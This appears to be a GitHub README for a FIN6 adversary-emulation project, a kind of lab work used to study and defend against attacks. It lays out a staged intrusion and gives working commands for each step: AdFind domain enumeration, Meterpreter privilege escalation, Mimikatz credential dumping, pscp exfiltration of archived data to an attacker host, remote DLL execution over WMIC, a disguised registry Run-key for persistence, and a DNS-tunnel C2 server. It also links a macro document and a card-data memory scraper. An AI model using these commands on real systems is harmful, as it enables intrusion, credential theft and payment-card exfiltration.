

# FIN6 Adversary Emulation Project

This project emulates the tactics, techniques, and procedures (TTPs) of the FIN6 advanced persistent threat (APT) group. FIN6 is known for targeting payment card data in point-of-sale (POS) environments, leveraging techniques such as memory scraping, credential dumping, and exfiltration via DNS tunneling. This emulation focuses on phases 1 and 2 of the FIN6 attack.


*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*

---

Phase 1 Start by Phishing email which downloads a Word doc file after opening it. a PowerShell metasploit payload runs after the Discovery of Users, Computers, Groups, OU, and other parts of the domain after that, the attacker compresses and extracts all that data using SSH through that attacker doing Privilege Escalation using various methods.

Phase 2: had 3 Scenarios

```
Scenario 1 - Attacking Point of Sale (POS) Systems

Scenario 2 - Attacking E-Commerce Platforms

Scenario 3 - Deploying Ransomware
```

*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*


## Overview

The primary goal of this emulation is to provide a realistic representation of FIN6 TTPs in a controlled environment for educational and research purposes. This project includes:
- An infected Word document simulating a phishing payload.
- The `adfind.exe` tool for Active Directory enumeration.
- A C++ memory scraper targeting sensitive card data.
- A custom C2 server receiving exfiltrated data via DNS tunneling.


## Phases Breakdown

### Phase 1


#### Initial Access

Spearphishing Attachment: T1566.001 


#### Execution

Command and Scripting Interpreter: PowerShell: T1059.001

FIN6 has targeted victims with e-mails containing malicious attachments Craft a malicious Word document with embedded macros that execute the Metasploit PowerShell payload upon opening.

[infectd_word_doc](Phase1/infected_word_doc.doc)

---


#### Discovery

FIN6 USED AdFind.exe to Find all person objects and output the results to a text file, Identify all computer objects and output the results to a text file, Enumerate all Organizational Units (OUs) in the domain of the user running the command and output the results to a text file, Performs a full forest search and dumps trust objects to a text file, List subnets and output the results to a text file, List groups and output the results to a text file. 


```cmd
adfind.exe -f (objectcategory=person) > ad_users.txt             # Account Discovery: Domain Account (T1087.002)
adfind.exe -f (objectcategory=computer) > ad_computers.txt       # Remote System Discovery (T1018) 
adfind.exe -f (objectcategory=organizationalUnit) > ad_ous.txt   # Domain Trust Discovery (T1482) 
adfind.exe -gcb -sc trustdmp > ad_trustdmp.txt                   # Domain Trust Discovery (T1482)
adfind.exe -subnets -f (objectcategory=subnet) > ad_subnets.txt  # System Network Configuration Discovery (T1016)
adfind.exe -f (objectcategory=group) > ad_group.txt              # Permission Groups Discovery: Domain Groups (T1069.002)
```

#### Privilege Escalation

FIN6 used various methods to Escalate their Privilege

FIN6 was reported to have escalated privileges to SYSTEM by using the named-pipe impersonation technique featured in the Metasploit framework
Access Token Manipulation: (T1134)

```sh
getsystem -t 1
```

FIN6 was reported to use Mimikatz to make OS Credential Dumping. We Will use  Mimikatz from a Meterpreter session.
OS Credential Dumping: LSASS Memory: T1003.001

```sh
load kiwi
creds_all
```


FIN6 was reported to  use Metasploit's psexec_ntdsgrab module. This module authenticates to the domain controller, creates a volume shadow copy of the system drive, and downloads copies of the NTDS.dit and SYSTEM hive. 
OS Credential Dumping: NTDS: T1003.003 


#### Collection

FIN6 was reported to  use 7zip (7.exe), on the designated staging system, to compress the text files resulting from internal discovery.
Archive Collected Data: Archive via Utility: T1560.001 


#### Exfiltration 

FIN6 was reported to exfiltrate the 7Zip files resulting from the Discovery Phase via SSH
Exfiltration Over Web Service: Exfiltration to Cloud Storage: T1567.002

```sh
pscp.exe -P {port} {path_on_windows}\ad.7z root@192.168.1.13:/temp/
```

---

### Phase2: Scenario 1 - Attacking Point of Sale (POS) Systems


#### Lateral Movement

Remote Services: Remote Desktop Protocol T1021.001

```
I used rdesktop tool you can use any other tool you like.
```

#### Execution

Windows Management Instrumentation T1047

```
wmic /node:"192.168.1.62" process call create "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run"
```

#### Persistence

Registry Run Keys T1547.001

```
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run" /f

```

#### Exfiltration

PoS data exfiltration over DNS tunnel T1048.003

```
to do that run on your attacking machine:
python3 dns_c2_server.py
```



## Credits

- This emulation project is inspired by open-source intelligence on the FIN6 APT group.
- Tools and techniques align with the MITRE ATT&CK framework.

---
